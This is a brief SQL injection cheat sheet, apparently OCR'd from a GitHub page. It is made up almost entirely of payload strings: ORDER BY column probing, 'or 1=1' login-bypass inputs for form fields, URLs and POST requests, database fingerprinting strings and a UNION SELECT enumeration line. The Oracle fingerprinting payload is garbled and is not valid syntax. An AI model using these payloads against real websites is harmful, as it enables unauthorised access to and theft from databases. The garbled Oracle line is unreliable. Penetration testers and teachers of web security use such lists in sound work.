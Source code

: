 # SQL Injection (SQLi)

Payload resource: https://github.com/swisskyrepo/PayloadsAllTheThings

## Blind Testing Payload:

    ' ORDER BY NUM;-- - (Keep increasing the NUM value until you get an error. This not only confirms an SQLi vulnerability, but also enumerates the database columns as well)

### 1) Input box non-string

#### payload: 

    1 or 1=1-- -

### 2) Input box string

#### payload: 

    1' or '1'='1'-- -

### 3) URL injection

#### payload: 

    http://site.com/sqli/login?profile=-1'or 1=1-- -&password=a

### 4) POST injection

#### Use proxy (Burp) or remove/disable JavaScript

## Database Identification

### 1) MySQL and MSSQL: 

    'nickname=@@version,email='

### 2) Oracle: 

    'nickname=(SELECT Gamer FROM v(version),email='

### 3) SQLite: 

    'nickname=sqlite_version(),email='

## Database enumeration:

### Columns enumeration:

    1' UNION SELECT NULL-- -
